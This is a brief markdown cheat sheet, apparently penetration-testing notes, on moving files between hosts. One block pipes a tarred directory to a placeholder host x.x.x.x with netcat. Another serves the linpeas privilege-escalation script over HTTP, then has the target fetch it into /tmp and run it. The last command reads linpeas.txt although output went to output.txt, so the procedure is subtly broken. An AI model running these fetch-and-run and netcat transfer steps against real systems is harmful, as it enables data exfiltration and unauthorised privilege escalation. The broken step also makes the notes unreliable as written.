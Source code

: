 ## Send directory with `netcat`
### Sender:
```bash
tar -czf directory.tar.gz ./directory
cat directory.tar.gz | nc x.x.x.x 1234
```
### Receiver:
```bash
nc -l -p 1234 > directory.tar.gz
```

## Download and serve linpeas
### Sender:
```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
sudo python3 -m http.server 8080
```
### Receiver
```bash
cd /tmp
wget x.x.x.x:8080/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh -a > ./output.txt
less -r ./linpeas.txt
```
